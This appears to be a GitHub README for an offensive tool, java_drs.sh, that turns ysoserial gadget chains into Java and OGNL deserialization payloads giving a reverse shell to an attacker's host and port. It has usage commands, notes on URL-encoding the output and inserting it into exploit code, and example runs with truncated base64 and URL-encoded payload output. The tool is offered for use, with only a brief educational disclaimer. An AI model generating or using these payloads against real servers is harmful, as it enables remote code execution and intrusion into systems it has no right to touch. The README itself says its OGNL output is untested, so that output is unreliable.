 # Java/OGNL Deserealization Reverse Shell Payload Generator
*This mini tool is for educational and research purpose only.*  
*I am not responsible for any improper use.*

The goal is to provide a different way to launch a reverse shell leveraging
unsecure payload deserealization.  
You need to identify the payload for the deserealization library from the 
[ysoserial page](https://github.com/frohoff/ysoserial#usage).  
  
Once done that you can launch simply the script :
```
$ java_drs.sh <ysoserial payload> <lhost> <lport> [url_enc_stream]
```

The script `java_drs.sh` will generate 1 Java and 2 OGNL payloads which 
hopefully will give you a reverse shell.
  
#### Note 1
**The output is supporting also OGNL format and can be urlencoded as a byte stream.**  
#### Note 2
You still need to insert the code generated into the PoC exploit code.  
This script was done to speedup the process of payload generation which can be 
complex and error likely.
#### Note 3
OGNL code hasn't been tested. Should work btw on vulnerable environments.

## Example
```
$ ./java_drs.sh CommonsCollections2 172.17.0.2 4444

=================================== JAVA CODE ===================================
String gdavi="rO0ABXNyABdqYXZhLnV0aWwuUHJpb3JpdHlRdWV1ZZTaMLT7P4KxAwACSQAEc2l6ZUwACmNvbXBhcmF0b3J0ABZMamF2YS91dGlsL0NvbXBhcmF0b3I7eHAAAAACc3IAQm9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9uczQuY29tcGFyYXRvcnMuVHJhbnNmb3JtaW5nQ29tcGFyYXRvci/5hPArsQjMAgACTAAJZGVjb3JhdGVkcQB+AAFMAAt0cmFuc2Zvcm1lcnQALUxvcmcvYXBhY2h...
```
```
$ ./java_drs.sh CommonsCollections2 172.17.0.2 4444 url_enc_stream

=================================== JAVA CODE ===================================
%53%74%72%69%6e%67%20%67%64%61%76%69%3d%22%72%4f%30%41%42%58%4e%79%41%42%64%71%59%58%5a%68%4c%6e%56%30%61%57%77%75%55%48%4a%70%62%33%4a%70%64%48%6c%52%64%57%56%31%5a%5a%54%61%4d%4c%54%37%50%34%4b%78%41%77%41%43%53%51%41%45%63%32%6c%36%5a%55%77%41%43%6d%4e%76%62%58%42%68%63%6d%46%30%62%33%4a%30%...
```